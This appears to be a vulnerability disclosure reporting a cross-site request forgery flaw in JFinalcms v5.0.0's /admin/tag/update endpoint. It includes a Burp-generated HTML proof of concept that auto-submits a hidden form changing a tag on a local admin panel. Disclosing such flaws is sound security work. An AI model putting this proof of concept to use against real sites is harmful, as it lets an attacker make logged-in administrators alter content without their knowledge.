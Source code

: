 Author：MengYang

target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/tag/update

![图片](https://github.com/cui2shark/cms/assets/52313275/dfe9ab1a-2fa3-4be8-a9b4-ba40b5e53349)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/2958a8b9-0468-4aee-8a1b-fbaf04657335)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/tag/update" method="POST">
      <input type="hidden" name="id" value="4" />
      <input type="hidden" name="name" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/324c4c8b-f32b-454f-911c-94848303f59f)
